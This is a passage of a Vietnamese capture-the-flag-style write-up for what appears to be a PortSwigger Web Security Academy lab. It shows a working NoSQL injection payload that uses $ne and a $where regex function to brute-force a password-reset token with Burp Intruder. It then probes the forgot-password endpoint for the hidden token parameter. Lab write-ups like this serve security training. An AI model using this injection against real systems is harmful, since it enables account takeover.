 ```
{"username":"carlos","password":{"$ne":""},"$where":"function(){if(this.pwResetTkn.match('^.{0}a.*')) return 1; else 0;}"}
```

Lần này dùng regex trong hàm `match()` để cắt và so sánh từng ký tự trong chuỗi. trong `Intruder` của Burpsuite đặt thay đổi giá trị `0` và `a`, chọn phương thức `Cluster Bomb Attack` để thực hiện Bruteforce:

```
email: carlos@carlos-montoya.net
pwResetTkn: e32dc76da4f908f5
```

Lưu ý rằng việc tìm bằng match chứa biểu thức regex thì khi bruteforce chứa ký tự `.` sẽ phá vỡ cấu trúc của biểu thức regex và cho kết quả không đúng. Nên nếu dùng biểu thức regex trên sẽ không tìm được ký tự `.` ở position 21. Nhưng trong lab này thì email không quan trọng và không dùng đến. Có thể thay biểu thức regex bằng toán tử so sánh ký tự thông thường.

Sau khi đã có `pwResetTkn` tiếp theo ta cần tìm nơi để sử dụng nó.  
Dễ dàng đoán được nó dùng để reset password nên có khả năng dùng trong trang `Forgot Password`.  
Tìm lại request `GET /forgot-password`:

```
GET /forgot-password HTTP/2
Host: 0ad7006e048d4889805e1727008500f6.web-security-academy.net
Cookie: session=iy2MPIXc7V53ShlQXQ8JC7N51U4Yb6e6
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0ad7006e048d4889805e1727008500f6.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers


```

Nhìn qua request ta thấy không có gì đặc biệt, hãy thử thêm một tham số trong req này:

```
GET /forgot-password?randomName=xxx HTTP/2
```

Xác nhận khi gửi yêu cầu không có điều gì khác trong response. Thử thay tên tham số trên bằng field name `pwResetTkn`:

```
GET /forgot-password?pwResetTkn=xxx HTTP/2
```

```
"Invalid token"
```
